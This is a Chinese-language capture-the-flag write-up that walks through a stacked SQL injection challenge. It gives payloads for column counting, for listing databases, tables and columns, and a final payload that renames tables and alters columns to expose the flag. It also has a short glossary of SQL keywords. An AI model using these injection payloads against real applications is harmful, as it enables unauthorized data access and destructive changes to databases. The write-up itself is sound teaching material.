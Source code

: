 网页环境<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1697680807481-dba73d7b-18cf-44a0-93e3-38592d9b232b.png#averageHue=%23f1f1f0&clientId=udbb228e3-387b-4&from=paste&height=212&id=uf8ac1bac&originHeight=265&originWidth=1168&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=24915&status=done&style=none&taskId=u76ec8906-f57c-4324-97ac-6d6ebbb9e94&title=&width=934.4)<br />判断是否是字符型注入<br />`1'`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1697681943555-c6fd1469-3469-4e53-a161-3a5aaf2029a0.png#averageHue=%23eeeeed&clientId=udbb228e3-387b-4&from=paste&height=162&id=u56bd0ea5&originHeight=202&originWidth=1388&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=25694&status=done&style=none&taskId=u39d2368e-44f6-460e-b1c2-d72e699df55&title=&width=1110.4)<br />判断是否存在关键字过滤<br />`select`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1697683665353-13241f7d-ab74-4190-9e19-ae2a85c8bd7e.png#averageHue=%23eeeded&clientId=udbb228e3-387b-4&from=paste&height=176&id=u35f4a366&originHeight=220&originWidth=1163&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=24568&status=done&style=none&taskId=u7459f24e-b95a-4f43-9b7c-2452341cb87&title=&width=930.4)<br />联合查询被过滤，只能用堆叠注入了<br />查看有几个字段<br />`1' order by 2#`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1697685059548-1fdb03a4-5597-4be0-b4aa-1de494b8ff49.png#averageHue=%23f2f2f1&clientId=udbb228e3-387b-4&from=paste&height=231&id=u1fdbf4f3&originHeight=289&originWidth=1169&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=25066&status=done&style=none&taskId=u1e3cc0be-65f2-497b-8af3-d3513d11612&title=&width=935.2)<br />正常回显<br />`1' order by 3#`![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1697685144295-986def3d-fc59-4fa3-b40f-69c75dbd6840.png#averageHue=%23ecebea&clientId=udbb228e3-387b-4&from=paste&height=156&id=u3442ddd1&originHeight=195&originWidth=1138&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=23618&status=done&style=none&taskId=u2b086f6e-13c1-406a-8715-0350b091e55&title=&width=910.4)<br />回显报错，可以看出只有两个字段<br />查看所有数据库<br />`1'; show databases;`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1697682480913-dbda1551-c9c2-4027-8411-65a3db6c5a60.png#averageHue=%23f9f9f9&clientId=udbb228e3-387b-4&from=paste&height=652&id=u7e5317b3&originHeight=815&originWidth=1166&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=33555&status=done&style=none&taskId=u81e5d8df-1d83-48b4-8287-69a8ad69681&title=&width=932.8)<br />查看所有数据表<br />`1'; show tables;`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1697682571665-ff2bcf7d-bcdd-47f7-adae-b3dac6bff559.png#averageHue=%23f6f5f5&clientId=udbb228e3-387b-4&from=paste&height=368&id=u16d4462e&originHeight=460&originWidth=1109&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=27495&status=done&style=none&taskId=u91c19cf1-9689-44e7-afbc-5fc8c775ac2&title=&width=887.2)<br />爆words数据表的字段<br />`1';show columns from words;#`![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1697683209151-3dfe3324-bfaf-465e-9e8e-288dcb7eff8f.png#averageHue=%23f9f9f8&clientId=udbb228e3-387b-4&from=paste&height=673&id=ua7e0ec08&originHeight=841&originWidth=1123&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=33791&status=done&style=none&taskId=u25d35ba1-5bc2-49da-86ce-e86d33c84d4&title=&width=898.4)<br />爆1919810931114514数据表字段（注意数据表为数字的时候需要用反引号括起来）<br />`1';show columns from `1919810931114514`;#`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1697683534413-5d13ce87-1495-4067-8f66-a9fb741cdbe1.png#averageHue=%23f7f7f7&clientId=udbb228e3-387b-4&from=paste&height=454&id=u798a0c31&originHeight=568&originWidth=1197&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=30021&status=done&style=none&taskId=u22a06d9d-b0b4-459c-810d-bd4f4b2fe4f&title=&width=957.6)<br />可以看到这两个表words表有两个字段，而另一个只有一个字段<br />后台SQL查询语句应该是：<br />`select * from words where id=`<br />所以说只能先查询id字段，然而另一个表只有一个flag字段是肯定爆不了flag的，并且类型为varchar字符串类型，而恰巧words数据表里面的data也是varchar类型，因此从这里就可以得到做题思路，通过rename函数进行改表，把`1919810931114514`改为words，增加新字段id，将flag改为data，将刚开始那个words表改为其他任意表。<br />构造payload：<br />`1';rename table words to BaiMao;rename table `1919810931114514` to words;alter table words add id int unsigned not NULL auto_increment primary key;alter table words change flag data varchar(100);#`
> rename修改表名
> alter修改已知的列
> add增加
> int整数类型
> unsigned无符号类型
> **not null**- 指示某列不能存储 NULL 值。
> **primary key** - NOT NULL 和 UNIQUE 的结合。指定主键，确保某列（或多个列的结合）有唯一标识，每个表有且只有一个主键。
> **auto_increment**-自动赋值，默认从1开始。
